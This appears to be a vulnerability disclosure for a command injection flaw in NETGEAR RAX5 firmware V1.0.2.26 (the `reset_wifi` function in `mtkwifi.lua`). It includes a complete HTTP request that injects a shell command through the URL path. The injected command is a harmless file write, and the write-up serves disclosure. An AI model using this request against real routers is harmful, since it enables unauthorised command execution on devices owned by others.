 # NETGEAR RAX5 V1.0.2.26 Command Injection (reset_wifi)

## Product Information

- Device: NETGEAR RAX5
- Firmware Version: V1.0.2.26
- Manufacturer's website information：https://www.netgear.com/
- Firmware download address ：https://www.downloads.netgear.com/files/GDC/RAX5/RAX5_V1.0.2.26_1.zip or https://www.netgear.com/support/download/?model=RAX5

![](./1.png)

## Vulnerability Description

In the `/usr/lib/lua/luci/controller/mtkwifi.lua` file, there is a **command injection vulnerability** in the `reset_wifi` function via the `devname` parameter.

![](./2.png)

Entry: `/admin/mtk/wifi/reset/arg`

![](./3.png)

## Payload

We can trigger this vulnerability by injecting the `ls%3E11111.txt` (ls>11111.txt) command using the following payload.

```http
GET /cgi-bin/luci/admin/mtk/wifi/reset/;ls%3E11111.txt; HTTP/1.1
Host: 192.168.187.136
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: sysauth=2066ce7be48fd3ba36e4135e973cd840
```

![](./4.png)

After the injection, we can verify the result.

![](./5.png)


